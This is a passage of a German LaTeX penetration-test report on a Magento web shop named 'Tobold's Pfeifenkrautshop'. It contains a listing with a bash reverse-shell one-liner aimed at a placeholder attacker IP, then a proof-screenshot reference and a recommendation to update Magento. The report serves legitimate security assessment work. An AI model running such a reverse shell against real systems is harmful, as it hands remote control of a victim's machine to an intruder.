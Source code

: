 \begin{listing}[!ht]
\begin{verbatim}
bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1
\end{verbatim}
\caption{Bash Reverse Shell}
\label{listing:bash-reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/07_pfeifenkraut_shop_proof.png}
    \caption{Proof für die Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Updaten der Magento-Version. In den aktuellen Versionen ist die Sicherheitslücke geschlossen (siehe \cite{owaspVulnerableDependency}).
\end{itemize}